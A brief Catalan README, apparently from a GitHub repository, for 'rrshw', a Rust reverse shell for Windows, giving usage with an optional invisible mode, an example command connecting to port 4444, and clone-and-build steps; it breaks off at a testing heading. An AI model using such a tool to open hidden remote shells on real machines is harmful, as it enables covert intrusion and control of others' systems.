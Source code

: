 ## rrshw - Rust Reverse Shell for Windows 
Que és una Reverse Shell? (https://en.wikipedia.org/wiki/Shell_shoveling)[https://en.wikipedia.org/wiki/Shell_shoveling].

Utilització: **rrshw.exe [ip] [port] [invisible(y/n=default)]**

Exemple: **rrshw.exe 127.0.0.1 4444 y**

**Complilar a partir del codi font**
git clone https://github.com/jc4st3lls/rrshw.git
cd rrshw
cargo build --release 

(a la carpeta bin hi ha una versió compilada)

** Com provar **
